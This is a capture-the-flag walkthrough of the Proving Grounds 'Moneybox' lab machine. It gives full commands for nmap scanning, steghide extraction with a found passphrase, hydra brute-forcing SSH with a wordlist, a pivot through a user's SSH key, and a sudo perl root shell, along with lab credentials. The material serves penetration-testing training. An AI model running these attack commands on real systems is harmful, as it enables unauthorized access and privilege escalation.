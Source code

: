 ```yaml
---
layout: default
title: Moneybox
parent: Proving Grounds Play
nav_order: 5
---
```


# Moneybox

---

## Discovered Ports for Enumeration

- _21_ - FTP
- _22_ - SSH
- _80_ - HTTP

## Users and Credentials

- _Users_: renu, lily
- _Credentials_: renu:987654321

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.162.230
```

# Enumeration

---

## 21 - FTP

Anonymous logon allowed.

Discovered _trytofind.jpg_ and downloaded locally.

![ftp](../../../assets/images/ctfs/proving_grounds/moneybox/ftp.png)

Located the following strings within _trytofind.jpg_

```bash
strings -n 20 trytofind.jpg
456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
```

## 80 - HTTP

### wfuzz

Found _/blogs_ directory.
Contains secret directory in HTML source code.

![secret](../../../assets/images/ctfs/proving_grounds/moneybox/secret.png)

Found a secret key in the _/S3cr3t-T3xt_ directory source code

![secret2](../../../assets/images/ctfs/proving_grounds/moneybox/secret2.png)

### Steghide

Use _steghide_ to extract file from _trytofind.jpg_ by passing in the discovered secret passphrase _3xtr4ctd4t4_

```bash
steghide extract -sf trytofind.jpg --passphrase 3xtr4ctd4t4
```

![steghide](../../../assets/images/ctfs/proving_grounds/moneybox/steghide.png)

We now have the user _renu_

# Exploitation

---

## Hydra

Use _hydra_ to crack the password for _renu_ on SSH

```bash
hydra -l renu -P '/usr/share/wordlists/rockyou.txt' 192.168.162.230 ssh
```

![hydra](../../../assets/images/ctfs/proving_grounds/moneybox/hydra.png)

SSH to target with credentials _renu:987654321_

# Post-Exploitation

---

## Enumerate Users

Locate the user _lily_ and _.ssh_ directory with an authorized key that can be used to pivot to _lily_

```bash
cd /home/lily/.ssh
ssh lily@127.0.0.1
```

![lily](../../../assets/images/ctfs/proving_grounds/moneybox/lily.png)

## Sudo permissions

We have sudo privileges for _/usr/bin/perl_

![sudo](../../../assets/images/ctfs/proving_grounds/moneybox/sudo.png)

![gtfobins](../../../assets/images/ctfs/proving_grounds/moneybox/gtfobins.png)

Run _perl_ to execute /bin/bash and elevate to a root shell.

```bash
sudo perl -e 'exec "/bin/bash";'
```

![root](../../../assets/images/ctfs/proving_grounds/moneybox/root.png)
